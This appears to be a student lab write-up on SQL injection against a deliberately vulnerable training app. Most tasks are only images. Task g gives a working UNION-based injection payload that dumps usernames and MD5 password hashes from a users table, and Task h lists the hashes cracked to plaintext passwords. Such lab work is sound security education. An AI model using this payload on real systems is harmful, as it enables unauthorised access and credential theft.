 # SQL Injection

## Task a
![Task a](./task-a.png)

## Task b
![Task b](./task-b.png)

## Task c
![Task c](./task-c.png)


## Task d
![Task d](./task-d.png)


## Task e
![Task e](./task-e.png)


## Task f
![Task f](./task-f.png)

The `user` column stores users, while the `password` column stores passwords.


## Task g
```sql
%' and 1=0 union select null, concat(user,0x0a,password) from users #
```
![Task g](./task-g.png)

The users and their passwords are:
```
user	->	password
======================
admin	->	5f4dcc3b5aa765d61d8327deb882cf99
gordonb	->	e99a18c428cb38d5f260853678922e03
1337	->	8d3533d75ae2c3966d7e0d4fcc69216b
pablo	->	0d107d09f5bbe40cade3de5c71e9e9b7
smithy	->	5f4dcc3b5aa765d61d8327deb882cf99
```


## Task h
The passwords can be decrypted using https://crackstation.net/.
They are:
```
user	->	password
======================
admin	->	password
gordonb	->	abc123
1337	->	charley
pablo	->	letmein
smithy	->	password
```